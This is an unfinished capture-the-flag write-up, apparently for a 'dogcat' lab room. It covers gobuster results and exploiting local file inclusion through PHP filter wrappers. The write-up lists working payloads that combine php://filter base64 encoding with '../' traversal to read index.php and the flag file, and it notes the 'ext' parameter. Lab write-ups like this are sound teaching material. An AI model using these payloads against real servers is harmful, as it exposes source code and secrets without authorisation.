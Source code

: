 IMAG GOBUSTER RESULTS

**Points of interest from scan:**\
index.php - Likely to show how the webpage we have seen works\
flag.php - This room wants us to get the contents of these files\
dogs/cats directory - Status code 301 means we do not have access

# 2. Exploitation

## 2.1 LFI


Must contain
cat and dog allowed trying to go to file

null byte with dog
failed opening in include function
appends php to end
path ./usr/local/lib/php


PHP LFI Filter
https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/

http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index

Applying this to our request format to view index.php

**/?view=php://filter/read=convert.base64-encode/resource=./dog/../index**

Explanation: From the web enumeration we know that if we change to the dog directory (meets containing dog in request), we then need to go back up a directory to end up back at the start in order to view the index page. The .php for index is not included as we know the filter will be appended with .php to our parameter.

This returns us the contents of index.php base64 encoded
I copied the encoded text into a file on my machine and decoded it using

```bash
base64 -d indexbase64.txt
```

Insert PHP source of index.html

From viewing index.php we can identify another parameter that can be set in our request. This is the **ext** value as seen in the line

```php
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
```

If we do not set the ext value it defaults to .php which is an issue I encountered earlier

Knowing we can read local files we can look to **read flag1** similar to how we read index.php
**/?view=php://filter/read=convert.base64-encode/resource=./dog/../flag**

As before the returned base 64 needs to be decoded using `base64 -d` giving us our first flag

INSERT IMAGE FLAG1
